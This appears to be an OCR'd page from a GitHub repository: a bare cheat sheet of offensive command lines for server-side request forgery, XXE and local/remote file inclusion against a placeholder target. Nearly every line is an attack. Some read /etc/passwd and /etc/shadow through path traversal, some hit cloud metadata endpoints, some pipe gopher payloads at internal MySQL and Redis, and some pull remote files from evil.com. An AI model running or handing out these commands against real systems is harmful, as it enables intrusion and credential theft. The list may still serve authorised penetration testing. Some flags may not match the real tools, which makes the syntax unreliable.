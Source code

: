     ground-control -u https://target.com/redirect?url=file:///etc/passwd -w /usr/share/wordlists/fuzzdb/wordlists-common/file-extensions-common.txt
    ground-control -u https://target.com/proxy?u=http://metadata.google.internal/computeMetadata/v1/project/numeric-project-id
    qsreplace -a urls.txt -p "http://localhost,http://127.0.0.1,file:///,gopher://" -o ssrf_potential.txt
    ------
    ssrfmap -r request.txt -p url=dict://localhost:11211/info -m portscan -ports 1-1000
    ssrfmap -r post_request.txt -p callback=http://[::1]:80/receive -X POST
    gopherus --exploit mysql --inject 'SELECT @@version' | curl -v --data-urlencode "url=gopher://127.0.0.1:3306/_$(cat -)" https://target.com/proxy
    gopherus --exploit redis --command "PING" | curl -v --data-urlencode "url=gopher://127.0.0.1:6379/_$(cat -)" https://target.com/api
    ground-control -u https://target.com/redirect?url=http://169.254.169.254/latest/meta-data/ -w /usr/share/wordlists/fuzzdb/wordlists-common/file-extensions-common.txt -H "X-Forwarded-For: 127.0.0.1"
    ground-control -u https://target.com/proxy?u=http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/
    qsreplace -a urls.txt -p "http://0,http://0.0.0.0,http://[::],file:///,gopher://,ftp://" -o ssrf_bypasses.txt

### XXE:
    xxeinjector -f request.xml
    docem -u https://target.com/upload

### File Inclusion:
    lfisuite -u https://target.com/view?file=index.html -o lfi_results.txt
    fimap -u 'https://target.com/page?file=XXE' -x
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root
    ------
    lfisuite -u https://target.com/view?file=../../../../etc/passwd -o lfi_results_passwd.txt -b "root:"
    lfisuite -u https://target.com/index.php?page=http://evil.com/malicious.txt -o rfi_evil.txt -r "evil content"
    fimap -u 'https://target.com/page?file=XXE' -x -o fimap_xxe.txt --rhost evil.com --rport 8080
    fimap -u 'https://target.com/image?name=../../../../etc/shadow' --lfi-only -o fimap_lfi_shadow.txt
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root -d 5 -t 10
    dotdotpwn -m ftp -h target.com -u /../../../../etc/passwd -P 21 -k root
    ------
    lfisuite -u https://target.com/view?file=....//....//....//etc/passwd -o lfi_results_dots.txt -b "root:"
    lfisuite -u https://target.com/index.php?page=http://evil.com/malicious.txt%00 -o rfi_nullbyte.txt -r "evil content"
    fimap -u 'https://target.com/page?file=XXE' -x -o fimap_xxe_full.txt --rhost evil.com --rport 8080 --data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>'
    fimap -u 'https://target.com/image?name=..%2f..%2f..%2f..%2fetc%2fshadow' --lfi-only -o fimap_lfi_encoded.txt
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root -d 7 -t 15 -s /usr/share/seclists/Fuzzing/LFI/LFI-paths.txt
    dotdotpwn -m ftp -h target.com -u /../../../../../../../../etc/passwd -P 21 -k root -o ftp_lfi.txt
